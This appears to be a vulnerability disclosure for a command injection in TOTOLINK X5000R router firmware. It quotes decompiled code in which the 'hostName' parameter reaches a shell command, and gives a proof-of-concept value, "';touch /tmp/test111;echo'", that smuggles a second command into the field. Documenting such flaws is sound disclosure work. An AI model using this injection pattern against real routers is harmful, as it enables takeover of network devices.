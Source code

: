 # TOTOLINK router X5000R_EasyMesh_Firmware Command injection
## Firmware version：X5000R_V9.1.0cu.2350_B20230313
https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/218.html


Problem function:`sub_4242EC`
```
if ( proto != 6 )
    {
      v5 = (const char *)websGetVar(a1, "hostName");
      v26 = websGetVar(a1, "dhcpMtu");
      Uci_Set_Str(10, "wan", "proto", "dhcp");
      Uci_Set_Str(10, "wan", "proto_backup", "dhcp");
      Uci_Set_Str(10, "wan", "dmtu", v26);
      Uci_Set_Str(10, "wan", "mtu", v26);
      if ( *v5 )
      {
        Uci_Set_Str(11, "main", "hostname", v5);
        Uci_Set_Str(10, "wan", "hostname", v5);
        if ( (unsigned int)(snprintf((int)v58, 128, "echo  '%s'  > /proc/sys/kernel/hostname", v5) + 1) >= 0x81 )
          goto LABEL_30;
        CsteSystem(v58, 0);
      }
      goto LABEL_8;
    }
   ```

`topicurl` is set to `setWanCfg`

`proto` is set to `9` to enter the problem branch

`hostName` is set to = `';touch /tmp/test111;echo'`

Send http request to trigger vulnerability


![http](1.png)

File is created

![file](/TOTOLINK/2.png)
